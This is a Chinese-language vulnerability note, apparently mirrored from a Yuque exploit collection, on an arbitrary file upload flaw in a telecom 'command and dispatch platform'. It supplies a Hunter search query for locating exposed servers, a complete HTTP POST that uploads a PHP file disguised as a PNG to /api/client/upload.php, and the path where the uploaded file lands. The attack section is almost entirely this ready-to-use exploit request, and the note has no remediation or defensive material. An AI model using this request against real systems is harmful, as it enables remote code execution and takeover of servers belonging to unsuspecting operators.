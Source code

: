# 指挥调度平台client_upload存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台client_upload存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/4sD9krRQUS7aBGa8/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-720140.png)

# 四、漏洞复现
```plain
POST /api/client/upload.php HTTP/1.1
Host: {hostname}
Content-Length: 180
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySwvD8hSn3Z0sHfMu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarySwvD8hSn3Z0sHfMu
Content-Disposition: form-data; name="ulfile";filename="1.php"
Content-Type: image/png

<?php echo 111*111;?>
------WebKitFormBoundarySwvD8hSn3Z0sHfMu--
```

![1704270269821-29e1c7ea-5a61-4f0e-a068-e4414af808be.png](./img/4sD9krRQUS7aBGa8/1704270269821-29e1c7ea-5a61-4f0e-a068-e4414af808be-125035.png)

上传文件位置

```plain
/upload/1.php
```

![1704270300936-e64326f0-0b9a-45c3-b5b2-a93fea878bcc.png](./img/4sD9krRQUS7aBGa8/1704270300936-e64326f0-0b9a-45c3-b5b2-a93fea878bcc-849516.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cqbzid7u7knls8bl>